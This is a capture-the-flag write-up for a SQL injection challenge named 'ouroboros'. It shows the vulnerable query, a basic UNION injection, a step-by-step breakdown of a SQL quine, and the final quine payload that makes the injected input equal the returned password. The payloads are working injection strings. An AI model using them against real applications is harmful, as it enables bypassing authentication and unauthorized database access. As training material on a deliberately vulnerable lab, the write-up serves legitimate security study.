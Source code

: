 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34),Char(39)),Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34), Char(39)), Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34), Char(39)), Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
